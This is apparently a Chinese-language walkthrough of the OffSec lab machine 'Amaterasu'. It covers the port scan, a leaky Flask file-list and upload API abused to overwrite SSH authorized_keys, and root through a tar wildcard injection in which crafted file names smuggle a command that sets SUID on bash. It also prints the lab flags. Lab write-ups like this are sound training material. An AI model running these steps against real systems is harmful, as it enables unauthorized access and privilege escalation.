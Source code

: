 # Amaterasu

2024-5-29 https://portal.offsec.com/labs/play

difficulty: easy

## IP

192.168.237.249

## Scan

Open Port -> 21,22,111,139,443,445,2049,10000,25022,33414,40080

```
PORT      STATE  SERVICE          VERSION
21/tcp    open   ftp              vsftpd 3.0.3
| ftp-anon: Anonymous FTP login allowed (FTP code 230)
|_Can't get directory listing: TIMEOUT
| ftp-syst:
|   STAT:
| FTP server status:
|      Connected to 192.168.49.57
|      Logged in as ftp
|      TYPE: ASCII
|      No session bandwidth limit
|      Session timeout in seconds is 300
|      Control connection is plain text
|      Data connections will be plain text
|      At session startup, client count was 2
|      vsFTPd 3.0.3 - secure, fast, stable
|_End of status
22/tcp    closed ssh
111/tcp   closed rpcbind
139/tcp   closed netbios-ssn
443/tcp   closed https
445/tcp   closed microsoft-ds
2049/tcp  closed nfs
10000/tcp closed snet-sensor-mgmt
25022/tcp open   ssh              OpenSSH 8.6 (protocol 2.0)
| ssh-hostkey:
|   256 68:c6:05:e8:dc:f2:9a:2a:78:9b:ee:a1:ae:f6:38:1a (ECDSA)
|_  256 e9:89:cc:c2:17:14:f3:bc:62:21:06:4a:5e:71:80:ce (ED25519)
33414/tcp open   unknown
| fingerprint-strings:
|   GetRequest, HTTPOptions:
|     HTTP/1.1 404 NOT FOUND
|     Server: Werkzeug/2.2.3 Python/3.9.13
|     Date: Wed, 29 May 2024 11:50:07 GMT
|     Content-Type: text/html; charset=utf-8
|     Content-Length: 207
|     Connection: close
|     <!doctype html>
|     <html lang=en>
|     <title>404 Not Found</title>
|     <h1>Not Found</h1>
|     <p>The requested URL was not found on the server. If you entered the URL manually please check your spelling and try again.</p>
|   Help:
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN"
|     "http://www.w3.org/TR/html4/strict.dtd">
|     <html>
|     <head>
|     <meta http-equiv="Content-Type" content="text/html;charset=utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 400</p>
|     <p>Message: Bad request syntax ('HELP').</p>
|     <p>Error code explanation: HTTPStatus.BAD_REQUEST - Bad request syntax or unsupported method.</p>
|     </body>
|     </html>
|   RTSPRequest:
|     <!DOCTYPE HTML PUBLIC "-//W3C//DTD HTML 4.01//EN"
|     "http://www.w3.org/TR/html4/strict.dtd">
|     <html>
|     <head>
|     <meta http-equiv="Content-Type" content="text/html;charset=utf-8">
|     <title>Error response</title>
|     </head>
|     <body>
|     <h1>Error response</h1>
|     <p>Error code: 400</p>
|     <p>Message: Bad request version ('RTSP/1.0').</p>
|     <p>Error code explanation: HTTPStatus.BAD_REQUEST - Bad request syntax or unsupported method.</p>
|     </body>
|_    </html>
40080/tcp open   http             Apache httpd 2.4.53 ((Fedora))
|_http-title: My test page
|_http-server-header: Apache/2.4.53 (Fedora)
| http-methods:
|_  Potentially risky methods: TRACE
```

开放端口很多，估计坑不少。

212 ftp 看看有什么，匿名登陆进去后，ls 卡住，看不到。

http://192.168.237.249:40080/ 使用 gobuster 扫描没找出什么信息。

看到 33414 这个端口，显示的 server 是 Werkzeug/2.2.3 Python/3.9.13，看看 Werkzeug 这个有没有什么漏洞，列出的 3 个都不能用。

http://192.168.237.249:33414/ gobuster 扫描发现了一个/help 目录：

```
["GET /info : General Info","GET /help : This listing","GET /file-list?dir=/tmp : List of the files","POST /file-upload : Upload files"]
```

看到有几个 api 接口。

http://192.168.237.249:33414/file-list?dir=/tmp 发现可以显示 /tmp 中的文件。

http://192.168.237.249:33414/file-list?dir=/home 同时发现可以显示 home 中的文件夹，存在系统内容泄露，发现一个用户 alfredo ，并且发现他的 id_rsa:

```
/file-list?dir=/home/alfredo/.ssh

["id_rsa","id_rsa.pub"]
```

http://192.168.237.249:33414/file-upload 可以上传文件，但是需要先构建上传接口。

这里的思路是找到 40080 端口对应的 web 服务的目录，然后上传 php 后门文件。通过 /file-list 发现 apache 根目录在 /var/www/html 目录中。

```
curl -F 'file=@/home/kali/Downloads/test.txt' -F 'filename=/tmp/1.txt' http://192.168.237.249:33414/file-upload

curl http://192.168.237.249:33414/file-list?dir=/tmp

["1.txt","flask.tar.gz","systemd-private-c73da0dad5364a9c80a6609690c2fcda-httpd.service-wXLGrj","systemd-private-c73da0dad5364a9c80a6609690c2fcda-ModemManager.service-hNfhpT","systemd-private-c73da0dad5364a9c80a6609690c2fcda-systemd-logind.service-kWkiZ6","systemd-private-c73da0dad5364a9c80a6609690c2fcda-chronyd.service-9lc593","systemd-private-c73da0dad5364a9c80a6609690c2fcda-dbus-broker.service-CGddV1","systemd-private-c73da0dad5364a9c80a6609690c2fcda-systemd-resolved.service-RakicW","systemd-private-c73da0dad5364a9c80a6609690c2fcda-systemd-oomd.service-Xii2Ge"]
```

或者使用 html 进行上传也可以实现：

```html
<!DOCTYPE html>
<html>
    <body>
        <form action="http://192.168.237.249:33414/file-upload" method="post" enctype="multipart/form-data">
            <input type="file" name="file" />
            <input name="filename" value="/tmp" />
            <input type="submit" />
        </form>
    </body>
</html>
```

经过上传测试，发现 1.txt 已经上传到了 /tmp 中，但是经过测试，发现不能上传 php 后门到/var/www/html 中，估计是没有写权限。

在上面发现的 /home/alfredo/.ssh 目录中有 id_rsa ,尝试下能不能上传自己生成的 authorized_key，去覆盖目标机器上的 authorized_key：

```
curl -F 'file=@/home/kali/Downloads/authorized_keys' -F 'filename=/home/alfredo/.ssh/authorized_keys' http://192.168.237.249:33414/file-upload
{"message":"Allowed file types are txt, pdf, png, jpg, jpeg, gif"}
```

要将 authorized_keys 先改成 authorized_keys.txt ，再次上传：

```
curl -F 'file=@/home/kali/Downloads/authorized_keys.txt' -F 'filename=/home/alfredo/.ssh/authorized_keys' http://192.168.237.249:33414/file-upload

{"message":"File successfully uploaded"}
```

这时就能用 ssh 使用私钥进行登陆了：

```
ssh -i id_rsa alfredo@192.168.237.249 -p 25022

[alfredo@fedora ~]$ id
uid=1000(alfredo) gid=1000(alfredo) groups=1000(alfredo)
```

进行 flag 查找：

```
[alfredo@fedora ~]$ cat local.txt
d4de4211ddf999a8b2a3ae685a4af413
```

/etc/crontab 发现自定义计划任务：

```
*/1 * * * * root /usr/local/bin/backup-flask.sh
```

```
[alfredo@fedora ~]$ cat /usr/local/bin/backup-flask.sh
#!/bin/sh
export PATH="/home/alfredo/restapi:$PATH"
cd /home/alfredo/restapi
tar czf /tmp/flask.tar.gz *

[alfredo@fedora ~]$ ls -al /usr/local/bin/backup-flask.sh
-rwxr-xr-x. 1 root root 106 Mar 28  2023 /usr/local/bin/backup-flask.sh
```

tar 提权：

```
cd /home/alfredo/restapi
printf '#!/bin/bash\nchmod +s /bin/bash' > shell.sh
echo "" > "--checkpoint-action=exec=sh shell.sh"
echo "" >> --checkpoint=1
```

等待 1 分钟，/bin/bash 将有 suid 权限，执行 /bin/bash -p 就获得了 root 权限：

```
[alfredo@fedora restapi]$ ls -al /bin/bash
-rwsr-sr-x. 1 root root 1390080 Jan 25  2021 /bin/bash

[alfredo@fedora restapi]$ /bin/bash -p
bash-5.1# cd /root
bash-5.1# ls
anaconda-ks.cfg  build.sh  proof.txt  run.sh
bash-5.1# cat proof.txt
38f5c1f0b2534fad35f8fd45ff0fdb0e
```

最后看看 python 搭建的服务的源码：

```python
@app.route('/file-upload', methods=['POST'])
def upload_file():
    # check if the post request has the file part
    if 'file' not in request.files:
        resp = jsonify({'message' : 'No file part in the request'})
        resp.status_code = 400
        return resp
    if 'filename' not in request.form:
        resp = jsonify({'message' : 'No filename part in the request'})
        resp.status_code = 400
        return resp

    file = request.files['file']
    filename = request.form['filename']
    if file.filename == '':
        resp = jsonify({'message' : 'No file selected for uploading'})
        resp.status_code = 400
        return resp
    if file and allowed_file(file.filename):
        file.save(os.path.join(app.config['UPLOAD_FOLDER'], filename))
        resp = jsonify({'message' : 'File successfully uploaded'})
        resp.status_code = 201
        return resp
    else:
        resp = jsonify({'message' : 'Allowed file types are txt, pdf, png, jpg, jpeg, gif'})
        resp.status_code = 400
        return resp
```
